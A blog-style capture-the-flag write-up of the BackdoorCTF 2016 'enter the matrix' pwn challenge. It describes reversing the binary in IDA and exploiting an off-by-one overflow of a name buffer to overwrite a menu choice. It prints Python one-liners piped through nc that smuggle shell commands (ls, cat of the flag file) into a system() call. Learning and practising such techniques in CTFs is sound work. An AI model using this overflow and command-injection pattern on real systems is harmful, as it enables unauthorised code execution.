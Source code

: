 ```yaml
---
title: "BackdoorCTF 2016 - enter the matrix"
layout: post
date: 2016-06-07 14:21
tag:
- BackdoorCTF2016
- Pwning
- Backdoor
writeup: true
star: false
points: 350
category: Pwn
---
```


**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 350

#### Description:

>Can you reach Zion and find the flag? You can download a copy of the Matrix to play with [here](http://hack.bckdr.in/ENTER-THE-MATRIX/matrix), but the flag can only be found on Zion, through the real Matrix at
nc hack.bckdr.in 9004

## Write-up

**For this one I went a long way around to finally get the solution. Since this is my first writeup with pwning, I'll be writing about the whole journey around the binary so if you want to just quickly see the solution, [jump here](#the-actual-solution)**

So they gave a 32-bit ELF non-stripped executable. I opened it up in IDA and saw a function named `zion`. According to the description this is where we have to reach to get the flag. This function was making some `_system` call which is what I had to finally exploit. I decided to go into its details later and rather focus on reaching there first.

I run the binary normally `./matrix`. It gave me three options.

~~~
Welcome to the Matrix
---------------------

Please choose a pill:
1) Red pill
2) Blue pill
3) Exit

Choice:
~~~

Since there were just three options I decided to try them all.

`1. Red Pill` - It asked for a name. I filled some random string. The binary said it was expecting "Neo" and exited. Then I tried with the name "Neo". It said "See you on the other side, Neo... Knock knock." and exited. I wonder what other side it's talking about :P

`2. Blue Pill` - Learning from before I tried with the name "Neo". Ah so we got something here. Something related to Matrices as I wanted. I tried random matrix sizes and inputs and landed no-where. It just gave back `AxB` for the two matrices. Ofcourse that meant I need to look at the disassembly.

But first I decided to try the `Exit` option as well just to be sure. It had nothing worthwhile.

So now I looked at the disassembly.

![Function call](/assets/images/backdoorctf16/choice_call.png)

Here `ds:choice` is where our inital choice is stored which was `2`(Blue pill) in this case. So we see that it calls the function with function name at certain offsets to `ds:dispatcher`. I saw the data section to see what was being called for which choice.

![Dispatcher](/assets/images/backdoorctf16/dispatcher.png)

So following is the relation between choice and function call.

~~~
0 - zion()
1 - red_pill()
2 - blue_pill()
3 - exit_out()
~~~

On seeing this I though what if I just call zion by entering `choice` as `0`. But they had checks on the value of the choice(1-3).

So I proceeded to the disassembly of `blue_pill()`. It had lots and lots of assembly. But I decided to go through it to reach `zion`. I saw this line "So, you found the hidden multiplier. Good for you." and decided thats where I must reach. I went through a lot of assembly trying to understand the control flow. Finally I deciphered that a lot of assembly corresponded to loops for taking all the inputs terms for each Matrix and then multiplying them together.

![Check 7](/assets/images/backdoorctf16/check7.png)

The above shows the code where the matrix size is being compared to the number `7` and I also saw that this size was necessary to reach `zion`. I tried running the binary with size = 7 but nothing. I expected there to be some check on values entered in the two matrix or the terms of `AxB`. So what I was that they had a variable set to the value `49`. This value was decremented once in for each term of `AxB` if it matched a certain value stored in the data section. In the end if the value of this variable was `0`, it went into `zion`.

![Variable Set](/assets/images/backdoorctf16/var_set.png)
<figcaption class="caption">Variable set to 0x31 = 49</figcaption>
<br>

~~~python
mov     eax, expected_mult[eax*4] # Moved the value at a certian position in the array `expected_mult` to `eax`

cmp     ecx, eax # Compare it to `ecx` which was actually storing the multiplied value after all calculations

setz    al # Sets the `al` register to 1 if the zero register is set to zero i.e. if eax == ecx in prev. step

movzx   eax, al # Copy that to eax

sub     [ebp+var_12D8], eax # This is where 1 is being subtracted.

add     [ebp+var_12D0], 1 # This is just loop variable updation.
~~~

![Variable check](/assets/images/backdoorctf16/var_check.png)

So I checked all the required values from the data section; converted them to decimal; made it into one of the Matrices and kept the other as an Identity matrix. So I finally had the input file ready:

~~~
2
Neo
7
1 0 0 0 0 0 0
0 1 0 0 0 0 0
0 0 1 0 0 0 0
0 0 0 1 0 0 0
0 0 0 0 1 0 0
0 0 0 0 0 1 0
0 0 0 0 0 0 1

10521 43403 21171 23103 54799 23988 10671
57977 61619 7400 34766 62088 64441  59137
30588 11031 36049 8340 43958 50999 12801
24559 57246 18798 49058 35052 27517 47281
57718 20889 42562 16616 50837 39276 14191
6891 21083 13814 51375 30500 20360 61632
60643 4598 56582 23548 45837 35370 23163
~~~

I tried `cat input | ./matrix` and got

~~~
So, you found the hidden multiplier. Good for you.
I shall now prepare a spaceship to Zion, Neo
~~~

Woot! I was so happy at having completed this challenge. Now all the was left was send the same thing to the binary running on the server.

~~~bash
cat input | nc hack.bckdr.in 9004
~~~

I got back the same resonse as above but no flag. This was bad. After all this work! I remembered that I hadn't actually looked at what `zion()` was actually doing.

## The actual Solution

![zion](/assets/images/backdoorctf16/zion.png)
<figcaption class="caption">From zion()</figcaption>
<br>
So all `zion` was doing was to execute the following command `printf '[name]'`. The name in our case was 'Neo'. There is no chance we can get a flag with that. I tried different combinations like `Neo\0;cat flag` etc. I was expecting the strins comparison to stop at `\0`. Nothing like that happened so I was unable to get into `zion` without keeping the name 'Neo'.

Probably this wasn't the right path afterall. I check at what all places `zion` function was being called. There was this other option which we had rejected earlier - setting the `choice` to `0`. There was a posibility that I maybe able to overwrite the `choice` while entering the `name`. I checked how they were being stored.

![name_choice](/assets/images/backdoorctf16/name_choice.png)

So the name could have 64 characters an just after that in the memory our choice was being stores.

So I tried to overwrite it:

~~~bash
python -c "print '2\n' + a'*64 + '\000'" | ./matrix
~~~

And voila! It did enter `zion`. So now I used the appropriate string so as to print the flag. This was a bit tricky. But this is what I finally used.

~~~bash
python -c "print '2\n'+'a'*9+'\';ls;cat \'flag_6fbb122c8e7f3408e4c783fbfe5052da\';'+'echo \''+'\000'" | nc hack.bckdr.in 9004
~~~

So the flag was in a file named `flag_6fbb122c8e7f3408e4c783fbfe5052da`. This I find out by sending an `ls` as you can see in the input; then modified the input to `cat` the correct file.

Finally got the flag!

![flag](/assets/images/backdoorctf16/matrix_flag.png)

The Vulnerability in this pwn challenge was `Off by One` error. This means that the program was reading 65 letters into the name rather than 64. We have all done this negligence:

Writing<br> `for(int i = 0; i <= 10; i++)`<br> rather than<br> `for(int i = 0; i < 10; i++)` ;) #nostalgia :P

Cheers who read through it all! I hope you learnt something from my mistakes. **Go through other [writeups](../../) for more such fun challenges.**

